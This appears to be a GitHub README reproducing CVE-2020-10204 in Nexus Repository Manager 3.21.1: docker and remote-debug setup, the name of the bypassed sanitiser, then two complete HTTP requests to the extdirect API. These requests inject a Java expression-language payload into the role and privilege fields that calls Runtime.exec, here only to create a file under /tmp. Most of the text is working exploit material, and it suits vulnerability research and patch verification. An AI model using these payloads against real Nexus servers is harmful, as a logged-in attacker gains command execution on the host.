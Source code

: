 CVE-2020-10204 Nexus Repository Manager 3

影响版本：<= 3.21.1
Affected Versions:  All previous Nexus Repository Manager 3.x OSS/Pro versions up to and including 3.21.1

Fixed in Version:  Nexus Repository Manager OSS/Pro version 3.21.2

### 1. 拉取镜像
```
docker pull sonatype/nexus3:3.21.1
```

### 2. 创建nexus数据目录
```
mkdir /your-dir/nexus-data && chown -R 200 /your-dir/nexus-data
```

### 3. 运行nexus docker镜像
```
docker run -d --rm -p 8081:8081 -p 5050:5050 --name nexus -v /your-dir/nexus-data:/nexus-data -e INSTALL4J_ADD_VM_PARAMS="-Xms2g -Xmx2g -XX:MaxDirectMemorySize=3g  -Djava.util.prefs.userRoot=/nexus-data -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050" sonatype/nexus3::3.21.1
```

### 4. github下载源码 & idea远程debug
```
git clone https://github.com/sonatype/nexus-public.git
git checkout -b release-3.21.0-05 origin/release-3.21.0-05
```
idea创建远程debug-启动
```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5050
```
漏洞点在 org.sonatype.nexus.common.template.EscapeHelper#stripJavaEl 被绕过

### 5. 登陆任何一个账号

### 6. 调用更新role接口
1. 利用更新用户接口：
```
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 301
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.16936373694860252
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.16936373694860252; NXSESSIONID=4e5437b3-7755-4784-bda6-d004e8f589fb
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"]}],"type":"rpc","tid":9}
```

2. 利用创建角色接口：
```
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 294
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=da418706-f4e4-468e-93ac-de9c46802f11
Connection: close

{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"],"roles":[]}],"type":"rpc","tid":89}
```